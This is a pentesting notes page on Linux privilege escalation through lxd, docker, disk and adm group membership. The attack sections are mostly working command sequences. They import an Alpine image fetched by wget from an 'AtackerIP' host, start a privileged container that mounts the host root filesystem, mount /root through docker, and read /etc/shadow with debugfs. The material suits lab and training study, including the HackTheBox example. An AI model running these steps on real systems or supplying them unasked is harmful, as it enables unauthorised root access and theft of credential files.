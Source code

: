 ```yaml
---
title: lxd 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
  - lxd
---
```

# lxd

LXD is similar to Docker and is Ubuntu's container manager. LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

[Source: https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, you can find a good explanation about how lxc works. [Original source: https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071](https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071).

## Privileges escalation

Privilege escalation through lxd requires the access of local account and that that local account belongs to the group lxd.

In order to take escalate the root privilege of the host machine you have to create an imag for lxd thus you need to perform the following the action:

**Steps to be performed on the attacker machine:**

```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```

**Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh
```


### Example from HackTheBox

Unzip the Alpine image.

```shell-session
 unzip alpine.zip 
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
lxd init
```

Import the local image.

```shell-session
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```shell-session
 lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.

```shell-session
lxc start r00t
lxc exec r00t /bin/sh
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers:

```
docker run -v /root:/mnt -it ubuntu
```

This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.

**1.** Check if the user is in the `disk` group

```
id
```

**2.** Identify the disk partitions available

```
lsblk
```

**3.** Look for partitions like /dev/sda1, which usually contains the root filesystem. Open the filesystem with debugfs

```
sudo debugfs /dev/sda1
# If you already have disk group privileges, sudo is not required.
```

**4.**  Access and read sensitive files (e.g., /etc/shadow)

```
cat /etc/shadow
```

## ADM 

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.


## Related labs

[HackTheBox machine Included](htb-included.md).

